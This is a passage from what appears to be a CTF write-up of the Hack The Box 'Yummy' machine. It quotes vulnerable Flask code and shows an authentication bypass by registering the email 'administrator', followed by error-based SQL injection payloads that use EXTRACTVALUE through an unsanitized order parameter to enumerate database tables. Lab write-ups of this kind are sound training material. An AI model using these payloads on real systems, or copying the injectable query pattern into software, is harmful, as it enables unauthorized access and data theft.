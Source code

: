 ```python
def admindashboard():
        validation = validate_login()
        if validation != "administrator":
            return redirect(url_for('login'))
```

in the `validate_login()` function we see that it returns `email`

```python
def validate_login():
    try:
        (email, current_role), status_code = verify_token()
        if email and status_code == 200 and current_role == "administrator":
            return current_role
        elif email and status_code == 200:
            return email
        else:
            raise Exception("Invalid token")
    except Exception as e:
        return None
```

The site validates email input through the frontend, however if we interecept the `Register` and `Login` requests we can change the `email` to `administrator`

which grants us access to the admin panel:

![image](/assets/img/2025-02-25-Yummy/Pasted image 20250123184749.png)

Looking back at the code we notice that the parameter `o` is directly inputed into an SQL query:

```python
                # added option to order the reservations
                order_query = request.args.get('o', '')

                sql = f"SELECT * FROM appointments WHERE appointment_email LIKE %s order by appointment_date {order_query}"
```
which we can abuse by inputting the parameter in the url:
```
http://yummy.htb/admindashboard?s=edu&o=ASC' OR 1=1
```
![image](/assets/img/2025-02-25-Yummy/Pasted image 20250123194732.png)
SQL query output is not visible however errors are, which we can validate through this url SQLi:
```
http://yummy.htb/admindashboard?s=&o=ASC; SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))
```
![image](/assets/img/2025-02-25-Yummy/Pasted image 20250123195112.png)
Checking if there's a table named users through this url SQLi:
```
http://yummy.htb/admindashboard?s=edu&o=ASC; SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (select group_concat(table_name) from information_schema.tables where table_name='users')))
```
![image](/assets/img/2025-02-25-Yummy/Pasted image 20250123195132.png)
